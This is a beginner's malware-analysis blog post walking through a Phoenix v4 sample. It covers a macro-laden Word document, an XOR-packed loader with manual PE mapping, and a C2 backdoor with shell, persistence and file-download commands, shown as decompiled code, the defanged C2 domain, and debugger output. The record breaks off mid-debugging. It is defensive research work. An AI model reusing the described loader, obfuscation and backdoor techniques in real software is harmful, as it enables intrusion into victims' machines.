





# A Deep Dive into a Phoenix v4 Malware Sample

As part of a work exercise, I was assigned the task of finding and analyzing a piece of
*recent* Windows malware. I have a bit of reverse engineering experience from playing CTFs
but I had 0 experience with real world malware so I was pretty excited to start on this
task.

## 1) The Research Phase

I was a bit lost on where to begin so I thought of looking at recent cyber attacks in the
gulf region (where I currently reside). I came across a few articles but the one that
seemed the most promising to me was this [article](https://www.group-ib.com/blog/muddywater-espionage/) by Group-IB talking about a piece of malware that started as a Microsoft Word document?!?!, kinda cool. 

So I hastily erased all the details of the article from my memory in a vain attempt to not be influenced by it. I wanted to go into analyzing this malware *semi* blind in hopes that I can replicate the same findings as Group-IB.   

First order of business was to actually get a hold of this word document. Unfortunately
there were no download links attached with the article :face_with_monocle:. My mentor, however,
mentioned this one website called [Malwarebazaar](https://bazaar.abuse.ch/) where I can
*maybe* find samples of malware other people submitted. I thought there is be a pretty
high chance that someone uploaded the word doc I needed. Fortunately, the article did
provide the hash of the Word Doc. 

<aside class="thought">The hash has the word <strong>dead</strong> in it. That's pretty cool!</aside>

```text
Word Doc Hash: 40dead1e1d83107698ff96bce9ea52236803b15b63fb0002e0b55af71a9b5e05
```

Filtering by the hash value did produce a result, thankfully, now I am in possession of the
malicious Word Doc :).

## 2) Word Doc under the :microscope:

Now that we have access to the word doc lets start by analyzing it. I started with the trusty `file` command to see what kind of document I was dealing with:

<aside class="thought">Can't believe file does not have a different view
option >:(</aside>

```bash 
Sammy artifacts $ file macro_phoenix.doc | tr -s "," "\n"
macro_phoenix.doc: Composite Document File V2 Document
 Little Endian
 Os: Windows
 Version 10.0
 Code page: 1252
 Author: pc
 Template: Normal.dotm
 Last Saved By: pc
 Revision Number: 133
 Name of Creating Application: Microsoft Office Word
 Total Editing Time: 10:52:00
 Create Time/Date: Thu Jul 25 23:39:00 2024
 Last Saved Time/Date: Sun Apr 27 17:44:00 2025
 Number of Pages: 1
 Number of Words: 12
 Number of Characters: 69
 Security: 0
 ```

Okayy we confirmed it is a Word Doc, or a **Composite Document File V2
Document**, whatever that is. I looked up some tools online that can help with
analyzing Microsoft Word Docs with Macros and I found this suite of tools called [oletools](https://github.com/decalage2/oletools).

The two tools I cared about were `oleid` and `olevba`. `oleid` performs a quick scan for suspicious document features, while `olevba` extracts and analyzes the embedded VBA macro code.

```bash
Sammy artifacts $ oleid macro_phoenix.doc
...
...
--------------------+--------------------+----------+--------------------------
Indicator           |Value               |Risk      |Description
--------------------+--------------------+----------+--------------------------
File format         |MS Word 97-2003     |info      |
                    |Document or Template|          |
--------------------+--------------------+----------+--------------------------
...
...
--------------------+--------------------+----------+--------------------------
Encrypted           |False               |none      |The file is not encrypted
--------------------+--------------------+----------+--------------------------
VBA Macros          |Yes, suspicious     |HIGH      |This file contains VBA
                    |                    |          |macros. Suspicious
                    |                    |          |keywords were found. Use
                    |                    |          |olevba and mraptor for
                    |                    |          |more info.
--------------------+--------------------+----------+--------------------------
...
...
--------------------+--------------------+----------+--------------------------
ObjectPool          |True                |low       |Contains an ObjectPool
                    |                    |          |stream, very likely to
                    |                    |          |contain embedded OLE
                    |                    |          |objects or files. Use
                    |                    |          |oleobj to check it.
--------------------+--------------------+----------+--------------------------
```

That's a big table but the part I want you to focus on is the VBA Macros, We see here that `oleid` did flag the Macros as suspicious. We also see it mentions
"*Suspicious keywords were found*", hmmm interesting. Let's now run `olevba` to actually see what that source code looks like. Unfortunately, the whole output is too large to show here but I can show you the table it prints out in the end.

<aside class="thought">olevba produced a much larger table, but these were the entries that turned out to be relevant to the macro’s actual behavior</aside>

```bash
+----------+--------------------+---------------------------------------------+
|Type      |Keyword             |Description                                  |
+----------+--------------------+---------------------------------------------+
|AutoExec  |Document_Open       |Runs when the Word or Publisher document is  |
|          |                    |opened                                       |
|Suspicious|Open                |May open a file                              |
|Suspicious|Write               |May write to a file (if combined with Open)  |
|Suspicious|Put                 |May write to a file (if combined with Open)  |
|Suspicious|Binary              |May read or write a binary file (if combined |
|          |                    |with Open)                                   |
|Suspicious|Shell               |May run an executable file or a system       |
|          |                    |command                                      |
|Suspicious|Hex Strings         |Hex-encoded strings were detected, may be    |
|          |                    |used to obfuscate strings (option --decode to|
|          |                    |see all)                                     |
|IOC       |cmd.exe             |Executable file name                         |
+----------+--------------------+---------------------------------------------+
```

<aside class="thought">VBA stands for Visual Basic for Applications.</aside>

We now see the offending keywords. We can clearly see that this Macro will attempt to
create a file with some obfuscated payload and then execute it. The `olevba` also exposed
the VBA code. Which basically does what we suspect it of doing.


- Reads a large hex-encoded payload from `UserForm1.TextBox1`.
- Converts the hex string back into raw bytes.
- Writes those bytes to `C:\Users\Public\hostmanager.txt`.
- Renames the file from `.txt` to `.png`, and then from `.png` to `.log`.
- Executes `C:\Users\Public\hostmanager.log` through `cmd.exe /C`.

Grabbing the hex encoded payload and decoding it myself, I end up with the same binary as
the macro code. Now I need to know what type of executable it is.

```bash
Sammy artifacts $ file hostmanager.bin
hostmanager.bin: PE32+ executable (GUI) x86-64, for MS Windows, 6 sections
```

All right this is promising. We ended up with a Windows executable and we can finally
start reverse engineering some malware.

## 3) First look at some malware

I don't have a lot of experience reversing Windows binaries so when I saw the program calling a bunch of unnamed `qword_...` globals as if they were functions, I was a bit confused.
```c
int __stdcall WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nShowCmd)
{
  char *v4; // rdi
  __int64 i; // rcx
  char v7; // [rsp+40h] [rbp-78h] BYREF
  void *v8; // [rsp+48h] [rbp-70h] BYREF
  size_t v9[2]; // [rsp+68h] [rbp-50h] BYREF
  void *v10; // [rsp+78h] [rbp-40h]
  __int64 v11; // [rsp+80h] [rbp-38h]
  unsigned int v12; // [rsp+88h] [rbp-30h]
  __int64 v13; // [rsp+90h] [rbp-28h]
  HANDLE hHandle; // [rsp+98h] [rbp-20h]

  v4 = &v7;
  for ( i = 28LL; i; --i )
  {
    *(_DWORD *)v4 = 0xCCCCCCCC;
    v4 += 4;
  }
  v8 = 0LL;
  v10 = (void *)qword_14009AB90(0LL, Size, 12288LL, 64LL);
  memcpy(v10, &unk_1400113E0, Size);
  sub_140001480(v10, Size, aEdwfwergrtgtrg);
  sub_140001500(v10, Size, &v8, v9);
  if ( !v8 )
  {
    v8 = v10;
    v9[0] = Size;
  }
  v11 = sub_140002970(v8);
  if ( v11 )
  {
    v12 = qword_14009AB98();
    v13 = qword_14009ABA0(1040LL, 0LL, v12);
    hHandle = (HANDLE)qword_14009AB48(v13, 0LL, 0LL, v11, 0LL, 0, 0LL);
    WaitForSingleObject(hHandle, 0xFFFFFFFF);
  }
  return 0;
}
```

It seems to me like this binary attempts to resolve some functions during runtime. I
started checking the cross references of these stubs, hoping to see where they get
populated and then I started to see a pattern emerge. 

Let's take a closer look at `qword_14009AB90`, which is the first unknown stub we encounter.

```c
FARPROC sub_140001380()
{
  const CHAR *v0; // rax
  FARPROC result; // rax
  _BYTE v2[24]; // [rsp+20h] [rbp-18h] BYREF

  memset(v2, 0, 1uLL);
  v0 = (const CHAR *)sub_140002700(v2);
  result = GetProcAddress(qword_14009AB78, v0);
  qword_14009AB90 = (__int64 (__fastcall *)(_QWORD, _QWORD, _QWORD, _QWORD))result;
  return result;
}
```

Actually let me rename these real quick. 

```c
FARPROC resolve_VirtualAlloc()
{
  const CHAR *v0; // rax
  FARPROC result; // rax
  _BYTE v2[24]; // [rsp+20h] [rbp-18h] BYREF

  memset(v2, 0, 1uLL);
  v0 = (const CHAR *)Decode_VirtualAlloc(v2);
  result = GetProcAddress(kernel32_handle, v0);
  pVirtual_Alloc = (__int64 (__fastcall *)(_QWORD, _QWORD, _QWORD, _QWORD))result;
  return result;
}
```

Much better. 

Each of these function pointers was being resolved dynamically using `GetProcAddress()`. Instead of importing `VirtualAlloc` normally, the binary stores an encoded version of its name, decodes it at runtime, and then asks `kernel32.dll` for the function’s address.

One question I had was when all of this actually happened. By the time execution reaches `WinMain`, these function pointers already need to contain valid addresses. Looking through the binary, I found the resolver functions inside an initialization table processed by the Microsoft C runtime before it calls `WinMain`. This gives the malware a chance to decode the API names and populate the function pointers during process startup.

Looking inside the function I named `Decode_VirtualAlloc()`, we can see the encoded string being prepared before it is passed to the decoder.

<aside class="thought">Already did some renaming of this function so it's easier to follow</aside>

```c
char *Decode_VirtualAlloc()
{
    ...
    ...
  qmemcpy(encoded_VirtualAlloc_str, "Ymwz|dpFrsrg", 12);
  encoded_VirtualAlloc_str[12] = 5;
  String_decoder(encoded_VirtualAlloc_str, decoded_VirtualAlloc_str);
  return decoded_VirtualAlloc_str;
}
```

`String_Decoder()` does a simple subtraction with a hard coded key that rotates.

<aside class="thought">Cleaned up this function too </aside>

```c
void __fastcall String_decoder(char *encoded, char *decoded)
{
  for ( i = 0; (unsigned __int64)i < 13; ++i )
    decoded[i] = encoded[i] - key_seq[i % 5];
}
```

So `encoded_VirtualAlloc_str` starts as `Ymwz|dpFrsrg` and gets transformed to the string `VirtualAlloc`, which allows the process to dynamically resolve key functions, with the use of `GetProcAddr()`, without simple static analysis tools from picking up what functions it is employing exactly.
%%

This pattern of:
- Grabbing an encoded string 
- Decoding it
- Passing it to `GetProcAddr()`
- Resolving a function stub

Happens multiple times with slightly different encoding schemes. But it is always the same
overall pattern.

Now that we are able to know what these qword stubs resolve to, without needed to grab it
dynamically :relieved_face:, we can actually take a deeper look at what this binary is
doing.

<aside class="thought">I Tried my best to clean
the decompilation in IDA as much as possible while also giving descriptive names</aside>

```c width=150%
int __stdcall WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nShowCmd)
{

    ...
    ...
    ...

  unpacked_payload = 0LL;

  encrypted_copy = (BYTE *)pVirtual_Alloc(0LL, encrypted_blob_size, 0x3000u, 0x40u);
  memcpy(encrypted_copy, &encrypted_blob, encrypted_blob_size);

  xor_decrypt_in_place((char *)encrypted_copy, encrypted_blob_size, xor_key);
  remove_padding((__int64)encrypted_copy, encrypted_blob_size, (LPVOID *)&unpacked_payload, unpacked_size);

  if ( !unpacked_payload )
  {
    unpacked_payload = encrypted_copy;
    unpacked_size[0] = encrypted_blob_size;
  }

  payload_entry = manual_map_pe(unpacked_payload);
  if ( payload_entry )
  {
    current_process_id = pGetCurrentProcessId();
    current_process = pOpenProcess(0x410u, 0, current_process_id);
    payload_thread = pCreateRemoteThread(current_process, 0LL, 0LL, (ThreadStart_t)payload_entry, 0LL, 0, 0LL);
    WaitForSingleObject(payload_thread, 0xFFFFFFFF);
  }
  return 0;
}
```

This is `WinMain` again but after some considerable renaming.

- Side Note:

    The `manual_map_pe()` function is essentially recreating the work that the Windows loader would normally perform. It allocates memory for the decrypted PE, copies its sections into their expected locations, resolves its imported functions, applies base relocations, and assigns the appropriate memory protections. It then returns the address of the payload’s entry point, which the loader starts in a new thread.

    This allows the embedded payload to execute directly from memory without first being written to disk as a normal executable.

We can see that this binary contains an encrypted executable, that it copies into newly
allocated memory, decrypts it, removes the padding, and manually maps it into the
current process. So this is not the final malware code :melting_face:

Getting the actual final binary can be done in 2 ways, either run this program and pause
execution after the encrypted blob has been decrypted and then proceed to dump it from
memory, or, extract the encrypted blob and the key from the program and do the decrypting
offline. The second option is much easier since this was the decrypting logic.

```c
void __fastcall xor_decrypt_in_place(unsigned __int8 *buffer, size_t buffer_size, const unsigned __int8 *xor_key)
{
  size_t i; // [rsp+0h] [rbp-18h]

  for ( i = 0LL; i < buffer_size; ++i )
    buffer[i] ^= xor_key[i % 0x20];
}
```

The XOR operation was only the first half of the unpacking process. The decrypted blob still contained one padding byte after every ten meaningful bytes. The loader removes this padding by copying ten bytes from each eleven-byte block into a new buffer. Once both transformations were reproduced, the resulting data began with a valid `MZ` header and contained a valid PE signature.

After extracting what is presumably the final malware executable we end up with this:

```bash
Sammy artifacts $ file malware.exe
malware.exe: PE32+ executable (GUI) x86-64, for MS Windows, 5 sections
```

`file` recognizes it as a Windows executable, so that's promising :).

## 4) Second look at some malware

All right, let's crack this bad boy open and finally figure out if we have found our
last piece of the puzzle.

```c width=122%
int __stdcall WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nShowCmd)
{
    ...
    ...
    ...
  ProcessHeap = GetProcessHeap();
  v5 = (char *)HeapAlloc(ProcessHeap, 8u, 6uLL);
  strcpy(v5, "rfgcn");
  v6 = qword_1400714C0(0LL, 0LL, v5);
  if ( (unsigned int)qword_140071630() != 183 )
  {
    sub_140003C50();
    si128.m128i_i64[0] = 0xC30092009F00BALL;
    si128.m128i_i64[1] = 0xA800CC00E600E3LL;
    v12 = 14549204;
    v13 = 12976315;
    v14 = 13893802;
    v15 = 12779725;
    v16 = 10289364;
    v17 = 7405798;
    v8 = sub_1400035E0(&si128);
    qword_140071580(v8, 0LL);
    si128.m128i_i64[0] = 0xC30092009F00BALL;
    si128.m128i_i64[1] = 0xA800CC00E600E3LL;
    v12 = 14549204;
    v13 = 12976315;
    v14 = 13893802;
    v15 = 12779725;
    v16 = 10289364;
    v17 = 7405798;
    v9 = sub_1400035E0(&si128);
    qword_140071588(v9, 2LL);
    si128 = _mm_load_si128((const __m128i *)&xmmword_140065980);
    v12 = 1910939092;
    v10 = sub_1400038A0(&si128);
    sub_1400076F0(v10);
    sub_140007C20();
    while ( 1 )
    {
      sub_140008280();
      byte_140071428 = 0;
    }
  }
  if ( (unsigned __int64)(v6 - 1) <= 0xFFFFFFFFFFFFFFFDuLL )
    qword_140071540(v6);
  return 0;
}
```


Great, more dynamically resolved functions. There are also several suspicious-looking 128-bit values being copied onto the stack. After decoding them, I discovered that they were encoded strings, *mainly* different representations of `C:\ProgramData\Logs`.

The 128-bit assignments themselves appear to be a compiler optimization. I hypothesize that the compiler saw that it needed to copy large strings so it packed a few bytes as 128 bits to leverage SIMD move instructions like `movdqu  xmmword ptr [rbp+encoded_str], xmm0`. It made the decomp super ugly but it is what it is. 

After resolving the function pointers, decoding the strings, and doing quite a bit of renaming, `WinMain` became much easier to understand:

```c width=130%
int __stdcall WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nShowCmd)
{
    ... 
    ...
    ...
  ProcessHeap = GetProcessHeap();
  v5 = (char *)HeapAlloc(ProcessHeap, 8u, 6uLL);
  strcpy(v5, "rfgcn");
  MutexA = (HANDLE)pCreateMutexA(0LL, 0LL, v5);
  if ( pGetLastError() != 183 )
  {
    retrieve_public_ip();

    *(_QWORD *)encoded_str.dwords = 0xC30092009F00BALL;
    *(_QWORD *)&encoded_str.bytes[8] = 0xA800CC00E600E3LL;
    *(_QWORD *)&encoded_str.bytes[16] = 0xC600BB00DE00D4LL;
    *(_QWORD *)&encoded_str.bytes[24] = 0xC300CD00D400AALL;
    *(_QWORD *)&encoded_str.bytes[32] = 0x7100E6009D00D4LL;
    logs_directory_w = decode_wide_string(&encoded_str);// Decodes to: 
                                                // L"C:\ProgramData\Logs"

    pCreateDirectoryW(logs_directory_w, 0LL);

    *(_QWORD *)encoded_str.dwords = 0xC30092009F00BALL;
    *(_QWORD *)&encoded_str.bytes[8] = 0xA800CC00E600E3LL;
    *(_QWORD *)&encoded_str.bytes[16] = 0xC600BB00DE00D4LL;
    *(_QWORD *)&encoded_str.bytes[24] = 0xC300CD00D400AALL;
    *(_QWORD *)&encoded_str.bytes[32] = 0x7100E6009D00D4LL;
    logs_directory_for_attributes_w = decode_wide_string(&encoded_str);// Also Decodes to:
                                                // L"C:\ProgamData\logs"

    pSetFileAttributesW(logs_directory_for_attributes_w, 2LL);

    *(__m128i *)encoded_str.dwords = _mm_load_si128((const __m128i *)&xmmword_140065980);
    encoded_str.dwords[4] = 0x71E69DD4;
    logs_directory_ansi = decode_ansi_string(&encoded_str);// Decodes to:
                                                // "C:\ProgramData\Logs"

    copy_current_executable_to_logs_directory(logs_directory_ansi);
    build_http_headers();
    while ( 1 )
    {
      register_and_dispatch_c2();
      byte_140071428 = 0;
    }
  }
  if ( (char *)MutexA - 1 <= (char *)0xFFFFFFFFFFFFFFFDLL )
    pCloseHandle(MutexA);
  return 0;
}
```

The program starts by creating a mutex called `rfgcn` so that it makes sure that it is the only copy of
the malware running in the system. That `pGetLastError() != 183` is checking that
`pCreateMutexA` didn't return a `ERROR_ALREADY_EXISTS`. I assume this is so that multiple
copies of the malware won't fight for control of the same files.

The malware then decodes the path `C:\ProgramData\Logs`, creates the directory, and then passes 2 to `SetFileAttributesW`. That value corresponds to `FILE_ATTRIBUTE_HIDDEN`, meaning the newly created directory should be hidden from the user. It then copies its own executable into that directory.

The rest of the functions are explained as such:

- retrieve_public_ip():
    => Does the following HTTP GET request `GET https://api.ipify.org/`, to retrieve the
    victim's public IP.
- copy_current_executable_to_logs_directory():
    => Pretty self explanatory.
- build_http_headers():
    => This builds some HTTP headers that the c2 dispatcher will use. (spoilers!!)
- register_and_dispatch_c2
    => Will dive into this in a second.

## 5) The :meat_on_bone: and :potato:s of the malware

Diving into the `register_and_dispatch_c2` will be the main part of this malware. I will
break up the functionality of this part of the code into different sections. In hopes that
it is a bit more digestible.

### Host registration

```c width=120%
    ...
    ...
construct_wstring_from_cstr(&registration_endpoint_w, (_WORD *)register_endpoint);
registration_string = build_host_registration_data((msvc_string_t *)&registration_data_string);
if ( registration_string->capacity > 0xF )
    registration_string = (msvc_string_t *)registration_string->heap_data;
   
registration_succeeded = send_base64_https_post(&registration_endpoint_w, registration_string);
    ...
    ...

```

This is the host-registration part. It first constructs a `std::wstring` containing the `/register` endpoint. It then gathers information about the infected machine and builds a registration string in the following format:

```text
<computer-name>\<username>:<Windows-version>:<polling-interval>
```

The polling interval represents the number of seconds the malware waits between attempts to contact the C2 server.

Finally, the malware Base64-encodes the registration data and sends it to the C2 server through an HTTPS POST request to `netivtech[.]org/register`. This gives the C2 server some basic information about the victim and registers the infected host before the malware begins requesting commands.

### Heartbeat & Task retrieval 


```c width=130%
if ( registration_succeeded && !stop_c2_loop )
  {
    while ( 1 )
    {
      construct_wstring_from_cstr(&endpoint_w, hearbeat_endpoint);
      heartbeat_succeeded = send_base64_https_post(&endpoint_w, heartbeat_request);
      if...
      endpoint_w.length = 0LL;
      endpoint_w.capacity = 7LL;
      endpoint_w.inline_data[0] = 0;
      if ( !heartbeat_succeeded )
        return;

      task_response = (char *)pVirtualAlloc(0LL, 1000LL, 4096LL, 4LL);
      memset(task_response, 0, 0x3E8uLL);

      construct_wstring_from_cstr(&endpoint_w, request_endpoint);
      task_received = https_get_and_decode_base64_response(&endpoint_w, &task_response);
      if...
      endpoint_w.length = 0LL;
      endpoint_w.capacity = 7LL;
      endpoint_w.inline_data[0] = 0;
      if ( !task_received )
        break;
        ...
        ...
        ...
```

After successfully registering the host, the malware enters its main C2 polling loop. It starts each iteration by sending a Base64-encoded heartbeat message to the `/imalive` endpoint. If this request fails, the function returns and the current C2 session ends.

If the heartbeat succeeds, the malware allocates a 1,000-byte buffer and sends an HTTPS GET request to the `/request` endpoint. The response is Base64-decoded and placed into the newly allocated buffer. This response contains the next command that the malware will attempt to dispatch.


### The main loop

<aside class="thought">I normalized the if/else chain from IDA because it looked ugly</aside>

```c 
command = task_response;
if (plstrcmpA(command, cmd_command) == 0) {
    handle_cmd_command();
}
else if (plstrcmpA(command, persist_command) == 0) {
    handle_persist_command();
}
else if (plstrcmpA(command, timeout_command) == 0) {
    handle_timeout_command();
}
else if (lstrcmpA(command, upload_command) == 0) {
    receive_file_from_c2();
}
else if (plstrcmpA(command, internal_server_error_response) == 0) {
    pVirtualFree(command, 0, MEM_RELEASE);
    return;
}
pVirtualFree(command, 0, 0x8000LL);
pSleep(1000 * polling_interval_seconds);
if (stop_c2_loop)
    return;
```

This is the main command-dispatch logic. The response retrieved from `/request` is compared against a small set of supported command names, with each command handing execution over to a separate function.

* `cmd` starts an interactive Windows command shell. The malware creates pipes for the shell's standard input and output, sends commands received from the C2 server into the shell, and uploads the resulting output back to the server. A separate thread is used to continuously read and transmit the shell output.

* `persist` redirects the user’s Startup folder to `C:\ProgramData\Logs`. Before doing so, it copies the files from the original Startup folder into the hidden Logs directory, presumably so that the user’s existing startup applications continue working. Since the malware has already copied itself into this directory, changing the registry value causes it to execute when the user logs in.

* `timeout` retrieves a new polling interval from the C2 server, converts it from a string into an integer, and stores it in the global `polling_interval_seconds` variable. This allows the operator to control how frequently the malware checks for new commands.

* `upload` is a slightly misleading command name because, from the victim's perspective, this function actually receives a file from the C2 server. It retrieves the destination path, opens the file, obtains the expected file size, downloads the contents, and writes them to disk in chunks of up to 1,024 bytes. Once it finishes, it sends a completion message back to the server.

* `Internal Server Error` is treated as a signal to end the current C2 session rather than as a command.

After handling a command, the malware releases the response buffer and sleeps for the configured polling interval before sending another heartbeat and requesting the next task. This loop continues until communication fails or `stop_c2_loop` is set.


At this point, static analysis had given me a pretty complete picture of the malware. It registers the victim with its C2 server, maintains a heartbeat, retrieves commands, provides an interactive shell, installs persistence, changes its polling interval, and downloads files. The next step was to run it inside an isolated Windows VM and see how much of that behavior I could actually observe.

## 6) Dynamic Analysis


To begin inspecting this malware in action, I had to first set up a Windows VM, I
recommend using VMware workstation pro, it has been free since 2024 :).

The plan for this debugging session is to observe the `hostmanager` process load the
encrypted binary into some executable memory, decrypting it and watching the execution
begin in the new binary. That should be it for `hostmanager` so let's dive in.

## `winDbg`: Our Window into Windows

My Windows debugger of choice is `winDbg`, that is what I used in the past and that is what
I will use now. Let's start by setting a couple of breakpoints in some interesting places.


```txt
bp phoenix+0x30d0 ".echo [+][+] Reached WinMain         [+][+]"
bp phoenix+0x3135 ".echo [+][+] Reached VirtualAlloc    [+][+]"
bp phoenix+0x3153 ".echo [+][+] Reached memcpy          [+][+]"
bp phoenix+0x316b ".echo [+][+] Reached xor_decrypt     [+][+]"
bp phoenix+0x31af ".echo [+][+] Reached manual_map      [+][+]"

```

Just like `gdb`, we can write these commands in a script and automate some of the constant
parts of debugging, unfortunately, I could not get `winDbg` to save my breakpoints so the best option was to just save them in a script and run them at each restart.

```asm 
0:000> g
[+][+] Rechead WinMain [+][+]
phoenix+0x30d0:
00007ff6`505630d0 44894c2420      mov     dword ptr [rsp+20h],r9d ...
0:000> g
[+][+] Rechead VirtualAlloc [+][+]
phoenix+0x3135:
00007ff6`50563135 ff15557a0900    call    qword ptr [phoenix+0x9ab90 (00007ff6`505fab90)]
rcx=0000000000000000 <- request address
rdx=000000000007dd00 <- size 
r8 =0000000000003000 <- allocation type
r9 =0000000000000040 <- protections
0:000> p
phoenix+0x313b:
00007ff6`5056313b 4889442478      mov     qword ptr [rsp+78h],rax ...
0:000> r rax
rax=000001ab8f640000 <- allocated address
0:000> !vprot rax
BaseAddress:       000001ab8f640000
AllocationBase:    000001ab8f640000
AllocationProtect: 00000040  PAGE_EXECUTE_READWRITE
RegionSize:        000000000007e000
State:             00001000  MEM_COMMIT
Protect:           00000040  PAGE_EXECUTE_READWRITE
Type:              00020000  MEM_PRIVATE

```

We can see here that the returned memory address is `PAGE_EXECUTE_READWRITE`, i.e that
means that whatever data ends up there later will be able to be executed by the process.
This is a telltale sign that the process is planning on doing something it should not be
doing.

The `0x1ab8f640000` address is probably where the encrypted memory will be copied to, so
lets keep an eye on it.

```asm
0:000> g
[+][+] Rechead memcpy [+][+]
phoenix+0x3153:
00007ff7`70f33153 e818cb0000      call    phoenix+0xfc70 (00007ff7`70f3fc70)
0:000> r rax, rdx, r8
